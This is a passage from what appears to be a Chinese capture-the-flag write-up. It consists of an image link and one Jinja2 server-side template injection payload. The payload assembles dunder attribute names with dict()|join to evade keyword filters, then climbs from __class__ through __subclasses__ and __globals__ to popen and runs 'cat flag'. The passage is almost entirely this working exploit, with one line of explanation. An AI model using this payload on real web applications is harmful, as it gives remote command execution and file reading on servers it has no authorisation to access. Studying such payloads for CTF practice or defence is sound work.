 [![在这里插入图片描述](assets/1698900310-169c4474e1f209ebb80af6893581e571.png)](https://storage.tttang.com/media/attachment/2022/08/14/09fcc953-c713-4036-a2ac-34951ec84705.png)  
我们构造 payload 如下

```bash
{%set a=dict(__cla=a,ss__=a)|join%}
{%set b=dict(__ba=a,se__=a)|join%}
{%set c=dict(__subcla=a,sses__=a)|join%}
{%set d=dict(__in=a,it__=a)|join%}
{%set e=dict(__glo=a,bals__=a)|join%}
{%set h=dict(po=a,pen=a)|join%}
{%print(""[a][b][c]()[133][d][e][h]('cat flag').read())%}
```
